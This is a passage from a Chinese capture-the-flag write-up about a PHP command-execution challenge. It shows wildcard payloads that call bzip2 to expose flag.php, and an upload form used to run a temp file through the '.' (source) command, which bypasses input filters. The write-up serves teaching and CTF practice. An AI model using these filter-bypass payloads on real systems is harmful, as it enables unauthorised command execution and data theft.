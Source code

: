 

**方法二**：

有一个bzip2命令，该命令也有数字，命令所处路径： /usr/bin/bzip2

于是构造payload:

```php
?c=/???/???/????2 ????.???
```

该命令会将 flag.php 压缩，成为一个bz2压缩文件

我们只需访问flag.php.bz2将文件下载，查看源代码即可





方法三：

这一题没有过滤 小数点.  

然后linux中 小数点.  相当与source命令，可以执行shell脚本

#### source

> 在当前bash环境下读取并执行fileName中的命令。
>
> *注：该命令通常用命令“.”来替代。
>
> 使用范例：

```shell
source filename 

# 中间有空格
. filename
```



于是，我们可以post上传一个文件，文件中包含了shell命令，到该服务器，上传的时候使用点. 去执行该脚本

一般临时文件在linux中保存在 /tmp/php??????  路径下，后面的6个字符是随机生成的（可以通过通配符匹配）



于是我们可以自己构造一个post上传文件的网页：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form method="post" action="http://10a25f77-7366-42e5-9334-449a03fe2086.challenge.ctf.show/" enctype="multipart/form-data">
        <input type="file" name="file">
        <input type="submit" value="submit">
    </form>
</body>
</html>
```
